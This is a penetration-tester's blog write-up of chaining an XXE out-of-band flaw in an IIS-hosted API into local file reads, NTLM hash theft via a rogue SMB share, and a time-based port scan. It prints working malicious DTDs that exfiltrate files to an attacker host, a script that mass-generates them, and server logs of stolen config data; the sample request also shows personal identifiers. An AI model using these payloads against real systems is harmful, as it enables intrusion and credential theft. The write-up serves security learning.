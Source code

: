 ```yaml
---
title: From XXE OoB to NTLM thief
published: true
---
```

# [](#header-1) From XXE to NTLM thief!

Long time no read! I am writing this post because of a recent chain of cool vulnerabilities I got the opportuninty to exploit during a pentest.

For security reasons, I am not going to reveal the name of the company, although the bugs have been (or `should` be) mitigated.
The vulnerability got to compromise an API through an [XXE OOB](another-page) vulnerability, from where I could read local files and also exfiltrate valuable data, such as domain name, username and NTLM hash. Finally, I `sorta` got access to a port scan just to look for internal ports.

## [](#header-2)Basic PoC

Let's take a look on the original request from the page, intercepted with burp:

```
POST blah/blah HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.26.3
Accept: */*
Postman-Token: XX
Host: XXX.YYY.ZZ
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 3292

{
  "device": {
    "brand": "Apple",
    "model": "iPhone",
    "os": "12.1.2",
    "deviceType": 1,
    "deviceOs": 1,
    "userInformation": {
      "phoneNumber": "650371725",
      "owner": {
        "firstName": "peep ",
        "surName": null,
        "lastName": "test "
      },
      "drivers": [
        {
          "firstName": "peep ",
          "surName": null,
          "lastName": "test "
        }
      ],
    },
    "deviceAttributes": [
      {
        "key": "LANGUAGE_CODE",
        "value": "es"
      }
    ],
    "kyrosDeviceId": null
  },
  "incidentType": 2,
  "xmlDisplay": null,
  "xmlCase": "&lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;xmlCase version=&quot;1.0&quot;&gt;&lt;phone&gt;&lt;imei /&gt;&lt;/phone&gt;&lt;ResponseQuestions&gt;&lt;Questions&gt;&lt;Question&gt;&lt;Answers&gt;&lt;Answer&gt;&lt;AnswerId&gt;1&lt;/AnswerId&gt;&lt;TextAnswer&gt;&lt;Text&gt;&lt;LanguageCode&gt;1&lt;/LanguageCode&gt;&lt;Message&gt;Avería&lt;/Message&gt;&lt;/Text&gt;&lt;/TextAnswer&gt;&lt;Value&gt;100&lt;/Value&gt;&lt;/Answer&gt;&lt;/Answers&gt;&lt;Order&gt;1&lt;/Order&gt;&lt;QuestionId&gt;1&lt;/QuestionId&gt;&lt;TextQuestion&gt;&lt;Text&gt;&lt;LanguageCode&gt;1&lt;/LanguageCode&gt;&lt;Message&gt;¿Qué ha sucedido?&lt;/Message&gt;&lt;/Text&gt;&lt;/TextQuestion&gt;&lt;/Question&gt;&lt;/Questions&gt;&lt;ReferenceId&gt;ITPOLICY_0001&lt;/ReferenceId&gt;&lt;/ResponseQuestions&gt;&lt;userdescription&gt;&lt;userdata&gt;&lt;language code=&quot;es&quot;&gt;&lt;field name=&quot;NIF&quot; attributeid=&quot;3&quot;&gt;34007678Q&lt;/field&gt;&lt;field name=&quot;Tipo Vehiculo&quot; attributeid=&quot;4&quot;&gt;Moto&lt;/field&gt;&lt;field name=&quot;Marca&quot; attributeid=&quot;5&quot;&gt;Bmw &lt;/field&gt;&lt;field name=&quot;Modelo&quot; attributeid=&quot;6&quot;&gt;&lt;/field&gt;&lt;field name=&quot;Matrícula&quot; attributeid=&quot;7&quot;&gt;0362FPG&lt;/field&gt;&lt;field name=&quot;Combustible&quot; attributeid=&quot;9&quot;&gt;&lt;/field&gt;&lt;/language&gt;&lt;/userdata&gt;&lt;/userdescription&gt;&lt;/xmlCase&gt;",
  "userProfile": null
```

First thing I thought when I saw the request was the XML parameters of the data section (in fact, it was the only thing I saw interesting). If we HTML-decode it we have the following:

```
<?xml version="1.0" encoding="UTF-8"?><xmlCase version="1.0"><phone><imei /></phone><ResponseQuestions><Questions><Question><Answers><Answer><AnswerId>1</AnswerId><TextAnswer><Text><LanguageCode>1</LanguageCode><Message>Avería</Message></Text></TextAnswer><Value>100</Value></Answer></Answers><Order>1</Order><QuestionId>1</QuestionId><TextQuestion><Text><LanguageCode>1</LanguageCode><Message>¿Qué ha sucedido?</Message></Text></TextQuestion></Question></Questions><ReferenceId>ITPOLICY_0001</ReferenceId></ResponseQuestions><userdescription><userdata><language code="es"><field name="NIF" attributeid="3">34007678Q</field><field name="Tipo Vehiculo" attributeid="4">Moto</field><field name="Marca" attributeid="5">Bmw </field><field name="Modelo" attributeid="6"></field><field name="Matrícula" attributeid="7">0362FPG</field><field name="Combustible" attributeid="9"></field></language></userdata></userdescription></xmlCase>
```

I tried a basic Proof of concept with Burp Collaborator:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://abc.burpcollaborator.net">]><xmlCase version="1.0"><phone><imei /></phone><ResponseQuestions><Questions><Question><Answers><Answer><AnswerId>1</AnswerId><TextAnswer><Text><LanguageCode>1</LanguageCode><Message>Avería</Message></Text></TextAnswer><Value>100</Value></Answer></Answers><Order>1</Order><QuestionId>1</QuestionId><TextQuestion><Text><LanguageCode>1</LanguageCode><Message>¿Qué ha sucedido?</Message></Text></TextQuestion></Question></Questions><ReferenceId>ITPOLICY_0001</ReferenceId></ResponseQuestions><userdescription><userdata><language code="es"><field name="NIF" attributeid="3">34007678Q</field><field name="Tipo Vehiculo" attributeid="4">Moto</field><field name="Marca" attributeid="5">Bmw </field><field name="Modelo" attributeid="6"></field><field name="Matrícula" attributeid="7">0362FPG</field><field name="Combustible" attributeid="9"></field></language></userdata></userdescription></xmlCase>
```

Looks like I got profit :D:

![](https://raw.githubusercontent.com/kikoas1995/kikoas1995.github.io/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/burp_collab.png)

However, the response from the server shows nothing to me, so it is time to get `out of band`. 

## [](#header-2)Let's retrieve files!

Now I need to adapt my payload to make it connect to a server where I have control. From there, I need to publish a malicious DTD in order to test LFI. The payload will be:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xx.xx.xx.xx:80/evil.dtd"> %xxe;]
```

And the external DTD that will be invoked will be something like this:

```xml
<!ENTITY % file SYSTEM "file:///c:/Inetpub/wwwroot/Web.config">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % file "<!ENTITY fileContents '%start;%file;%end;'>">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xx.xx.xx.xx:80/%file;'>">
%eval;
%exfiltrate;
```

Notice that I tried to retrieve a windows file. This is because in the responses of the webapp, I saw it was running a IIS.
Okay, so now we just need to make the request while hosting a rogue web server in port 80 and...

```
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] "GET /evil.dtd HTTP/1.1" 200 -
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] code 404, message File not found
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] "GET /%0D%0A%3Cconfiguration%3E%0D%0A%20%20%20%20%3Csystem.webServer%3E%0D%0A%20%20%20%20%20%20%20%20%3Csecurity%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cauthorization%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cadd%20accessType=%22Allow%22%20users=%22*%22%20/%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C/authorization%3E%0D%0A%20%20%20%20%20%20%20%20%3C/security%3E%0D%0A%20%20%20%20%3C/system.webServer%3E%0D%0A%3C/configuration%3E HTTP/1.1" 404
```
Yay we got LFI! Now I needed to look for more interesting files. I thought about using intruder to fuzz for windows/IIS interesting files. However, I realized that the file name was in the DTD, not in the request... I though about some dirty solution then lol.

```python
#!/usr/bin/python
import sys

i=0
with open('file.txt') as fp:
    
    line = fp.readline().strip().lower()
    while line:
        f = open("evil" + str(i) + ".dtd", "a")
        f.write("<!ENTITY % file SYSTEM \"file:///" + line + "\">\n")
        f.write("<!ENTITY % start \"<![CDATA[\">\n")
        f.write("<!ENTITY % end \"]]>\">\n")
        f.write("<!ENTITY % file \"<!ENTITY fileContents '%start;%file;%end;'>\">\n")
        f.write("<!ENTITY % eval \"<!ENTITY &#x25; exfiltrate SYSTEM 'http:/xx.xx.xx.xx/%file;'>\">\n")
        f.write("%eval;\n")
        f.write("%exfiltrate;\n")
        f.close()
        line = fp.readline().strip().lower()
        i+=1
```

This script basically creates as many DTD files as lines in the wordlist I used to fuzz xD. Now it is only neccesary to run a Burp Intruder with evil0.dtd to evil[numer of words in the wordlist, in my case 389].dtd.

After some bruteforce time (the API takes its time to response...), I only got a couple more files but nothing interesting... :(
How could I escalate the vulnerability now? After some time reading, I found this gem: https://techblog.mediaservice.net/2018/02/from-xml-external-entity-to-ntlm-domain-hashes/

### [](#header-3)XXE to steal NTLM hash

My external DTD will look like this:

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file://xx.xx.xx.xx/blah;'>">
%eval;
%exfiltrate;
```
What does it do? It basically forces the victim to connect to a SMB share exposed. This requires however a very bad network configuration that allows outbound traffic to unauthenticated rogue SMB exposed shares (spoiler: this is the case lol):
Now I just need to host a SMB capture server using metasploit:

![](https://raw.githubusercontent.com/kikoas1995/kikoas1995.github.io/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/msfsmb.png)

Bingo!

![](https://raw.githubusercontent.com/kikoas1995/kikoas1995.github.io/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/smb.png)

This is a win :D. In order to use this hash, we could use various methods:

1.  Crack it and find an exposed RDP service of the server. 
2.  Have access to the internal network and use SMBRelay+Responder to get a shell.
3.  Find an exposed Exchange server and PtH.
 
None of them were available to me unfortunately, but I learnt a lot :D.

## [](#header-2)Bonus track: Port scanner!

As an extra, I used the DTD to make a port `sweep` (poorly useful, as this service was slow af) with a XXE OoB time-based.

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://127.0.0.1:XX'>">
%eval;
%exfiltrate;
```

Where XX is the number of the port to test. If the port is open, it will typically take different time in the response than if it is closed. Although this worked in my case, it was not very useful because of two things:
1.  Requests took ~90s of response time, which is not good for bruteforcing open ports.
2.  I did not have access to any of these services.

I hope you liked it! :)


